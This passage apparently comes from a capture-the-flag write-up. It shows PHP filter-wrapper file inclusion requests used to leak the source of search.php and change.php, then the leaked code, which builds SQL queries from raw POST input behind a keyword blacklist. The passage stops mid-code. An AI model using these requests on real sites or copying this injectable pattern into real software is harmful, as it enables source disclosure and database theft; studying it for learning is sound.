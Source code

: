
```php
/index.php?file=php://filter/read=convert.base64-encode/resource=search.php
```

```php
<?php

require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

```php
/index.php?file=php://filter/read=convert.base64-encode/resource=change.php
```

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
```